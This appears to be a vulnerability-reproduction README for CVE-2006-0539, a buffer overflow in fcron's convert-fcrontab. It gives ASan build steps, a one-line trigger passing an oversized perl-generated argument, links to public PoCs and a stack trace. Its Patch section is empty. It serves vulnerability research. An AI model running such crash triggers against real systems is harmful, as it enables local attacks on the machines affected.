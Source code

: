 # CVE-2006-0539

## Experiment Environment

Ubuntu 8.10

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2006-0539/fcron-3.0.0.src.tar.gz
tar -xvf fcron-3.0.0.src.tar.gz
cp configure ./fcron-3.0.0
cd fcron-3.0.0
sudo apt-get install sendmail
sudo mkdir /var/spool/fcron
CC=../../../../llvm-4.0.0-project/ASan--Build/bin/clang CXX=../../../../llvm-4.0.0-project/ASan--Build/bin/clang++ CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./convert-fcrontab `perl -e 'print "pi3"x600'`
```

## PoCs

[Fcron Convert-FCronTab Local Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/16467/exploit)

[Fcron 3.0 - Convert-FCronTab Local Buffer Overflow](https://www.exploit-db.com/exploits/27159/)

## Vulnerability Patch

### Root Cause

See [Fcron (convert-fcrontab) allow users to corruption on heap section.](https://www.securityfocus.com/archive/1/archive/1/423697/100/0/threaded) for details.

### Stack Trace

```
......
#9 0x40111caf in syslog () from /lib/libc.so.6
#10 0x0804a5d8 in log_syslog_str (priority=3, msg=0x804ee08 "Could not read ", 'A' <repeats 146 times>, " (truncated)")
at log.c:102
#11 0x0804a739 in log_e (priority=3, fmt=0x804abcf "Could not read %s", args=0xbffff014 "ĐČ\004\bpz\006@0l\001@áŘ")
at log.c:165
#12 0x0804a90c in die_e (fmt=0x804abcf "Could not read %s") at log.c:339
#13 0x0804923a in convert_file (file_name=0x804c8d0 'A' <repeats 200 times>...) at convert-fcrontab.c:153
#14 0x0804936d in main (argc=134523688, argv=0xbffff677) at convert-fcrontab.c:276
```

### Patch

## References
